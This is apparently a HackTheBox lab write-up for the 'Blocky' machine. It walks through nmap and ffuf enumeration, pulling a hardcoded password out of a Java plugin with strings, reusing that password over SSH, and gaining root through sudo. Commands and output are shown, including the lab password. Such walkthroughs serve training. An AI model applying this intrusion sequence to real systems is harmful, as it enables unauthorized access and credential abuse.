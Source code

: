 ```yaml
---
tags:
  - hack
  - linux
---
```


# HackTheBox: [Blocky](https://app.hackthebox.com/machines/Blocky)

## Enumeration

```console
$ nmap -n -sCV -A -T4 -p1-65535 -v $t
[...]
Host is up (0.11s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[...]
```

The target is running a Wordpress site:

![](_/htb-blocky-20231004-1.png)

Web content discovery via `ffuf`:

```console
$ ffuf -ic -v -w ~/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://blocky.htb/FUZZ
[...]
[Status: 200, Size: 52227, Words: 3306, Lines: 314, Duration: 146ms]
| URL | http://blocky.htb/
    * FUZZ: 

[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 100ms]
| URL | http://blocky.htb/wiki
| --> | http://blocky.htb/wiki/
    * FUZZ: wiki

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 107ms]
| URL | http://blocky.htb/wp-content
| --> | http://blocky.htb/wp-content/
    * FUZZ: wp-content

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 98ms]
| URL | http://blocky.htb/plugins
| --> | http://blocky.htb/plugins/
    * FUZZ: plugins

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 102ms]
| URL | http://blocky.htb/wp-includes
| --> | http://blocky.htb/wp-includes/
    * FUZZ: wp-includes

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 104ms]
| URL | http://blocky.htb/javascript
| --> | http://blocky.htb/javascript/
    * FUZZ: javascript

[Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 103ms]
| URL | http://blocky.htb/wp-admin
| --> | http://blocky.htb/wp-admin/
    * FUZZ: wp-admin

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 99ms]
| URL | http://blocky.htb/phpmyadmin
| --> | http://blocky.htb/phpmyadmin/
    * FUZZ: phpmyadmin

[Status: 200, Size: 52227, Words: 3306, Lines: 314, Duration: 145ms]
| URL | http://blocky.htb/
    * FUZZ: 

:: Progress: [87651/87651] :: Job [1/1] :: 141 req/sec :: Duration: [0:04:38] :: Errors: 0 ::
```

The `/plugins` directory is serving two files:

![](_/htb-blocky-20231004-2.png)

I download them to my machine and run `strings` on the Java class:

```console
$ strings BlockyCore.class 
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
[...]
```

`root`, `localhost`, and `8YsqfCTnvxAUeduzjNSXe22` are interesting.

I find a username `notch` via a Wordpress post:

![](_/htb-blocky-20231004-3.png)

## Exploitation

Trying the username and password credentials for `ssh` yields success:

```console
$ ssh notch@$t
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
[...]
notch@Blocky:~$ cat user.txt
fb7682[...]
```

## Privilege Escalation

The user has `root` privileges via `sudo`:

```console
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su -
root@Blocky:~# cat /root/root.txt
d90ffb[...]
```
